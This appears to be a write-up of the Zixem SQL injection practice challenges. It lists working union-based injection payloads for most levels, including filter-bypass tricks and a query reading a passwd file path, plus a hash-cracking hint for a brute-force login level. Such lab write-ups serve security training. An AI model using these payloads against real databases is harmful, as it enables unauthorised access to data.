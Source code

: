 ## Zixem SQLi

[[Zixem SQLi](http://www.zixem.altervista.org/SQLi/)]

> #### RULES
>
> Use only **UNION BASED!**
>
> Your mission is to select only the **version** & **user** and to **take screenshot** as proof.

## Write Up

#### SQLi challenges

| [Level 1](http://www.zixem.altervista.org/SQLi/level1.php?id=1) | Super Easy |
| ------- | ---------- |

 `?id=-9999 union select version(),user(),3; --`

| [Level 2](http://www.zixem.altervista.org/SQLi/level2.php?showprofile=4) | Easy |
| ------- | ---------- |

 `?showprofile=-9999' union select user(),version(),3,4 -- -`

| [Level 3](http://www.zixem.altervista.org/SQLi/level3.php?item=3) | Medium |
| ------- | ---------- |

 `?item=-9999' unionon select user(),version(),3,4; -- -`

| [Level 4](http://www.zixem.altervista.org/SQLi/level4.php?ebookid=7) | Normal |
| ------- | ---------- |

 `?ebookid=-9999' union select user(),version(),3,4,5; -- -`

| [Level 7](http://www.zixem.altervista.org/SQLi/level7.php?id=1) | Medium |
| ------- | ---------- |

In viewsource mode:
 
 `?id=-9999 union select 1,user(),3 ; -- -`
 
 `?id=-9999 union select 1,version(),3 ; -- -`

| [Level 8](http://www.zixem.altervista.org/SQLi/lvl8.php?id=1) | Hard |
| ------- | ---------- |

 `?id=(-9999)UNION(SselectELECT(user()),version(),3)`

| [Level 9](http://www.zixem.altervista.org/SQLi/lvl9.php?id=1) | Medium |
| ------- | ---------- |

 `?id=-9999' union select('/membri/zixem/etc/passwd'),2 ; -- -`

| [Level 10](http://www.zixem.altervista.org/SQLi/lvl10.php?x=ISwwYGAKYAo%3D) | Pro |
| ------- | ---------- |

#### BF challenges

| [Level 5](http://www.zixem.altervista.org/SQLi/login_lvl5.php) | Hard |
| ------- | ---------- |

First, viewsource this login page and scroll down to end, we will find those red lines.

```
If you want hint, enter this password.
------
~~~~~~~~~~~~~~~~~~ password: d1fd6ef9af6cb677e09b1b0a68301e0c ~~~~~~~~~~~~~~~~~~~~~~
You can use my md5Cracker .
~~~~~~~~~~~~~~~~~~~~~~~~here: md5cracker.php~~~~~~~~~~~~~~~~~
```
Then enter this url `http://www.zixem.altervista.org/SQLi/md5cracker.php?hash=d1fd6ef9af6cb677e09b1b0a68301e0c` and we find the first password. Enter it to login page and get hint.

Now we know the passwords contains **only numbers**. Let's make some code to bruteforce the login page.


#### SQLi-Blind challenges

| [Level 6](http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10) | Expererinced |
| ------- | ---------- |
